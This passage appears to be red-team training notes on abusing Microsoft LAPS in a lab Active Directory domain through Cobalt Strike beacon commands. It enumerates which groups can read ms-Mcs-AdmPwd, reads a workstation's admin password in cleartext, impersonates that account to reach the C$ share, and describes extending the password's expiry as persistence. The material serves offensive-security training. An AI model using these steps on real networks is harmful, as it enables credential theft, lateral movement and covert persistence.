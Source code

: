 These entries tell us the password requirements.

## Reading ms-Mcs-AdmPwd

Can discover which principals allowed to read ms-Mcs-AdmPwd by reading its DACL on each computer object:

    beacon> powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

    CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io         S-1-5-21-569305411-121244042-2357301523-1107
    ...

    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
    DEV\Developers
    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1108
    DEV\Support Engineers

[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) also does this; Find-LAPSDelegatedGroups queries each OU for domain groups that have delegated read access:

    beacon> powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
    beacon> powershell Find-LAPSDelegatedGroups
    
Find-AdmPwdExtendedRights queries each computer for users that have "All Extended Rights". This will reveal any users that can read the attribute without being delegated to them. To get a computer's password read the attribute:

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd
    ms-mcs-admpwd 
    ------------- 
    1N3FyjJR5L18za

make_token is an easy way to use it:

    beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
    [+] Impersonated DEV\bfarmer
    beacon> ls \\wkstn-1\c$

## Password Expiration Protection

One of the LAPS policy settings is "Do not allow password expiration time longer than required by policy". This is the PwdExpirationProtectionEnabled configuration that we read from the Registry.pol file. When enabled, this policy prevents a user or computer setting the expiration date of a password beyond the password age specified in the PasswordAgeDays setting. We also read from Registry.pol that this is set to 30 days. If password expiration protection is enabled and we attempted to modify its expiration date beyond 31st January, it would trigger an automatic reset of that password. If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default. 

In the lab, since we were able to compromise WKSTN-1 using its LAPS password, we can set its expiration long into the future as a form of persistence. The expiration date is an 18-digit timestamp calculated as the number of 100-nanosecond intervals that have elapsed since 1st January 1601.
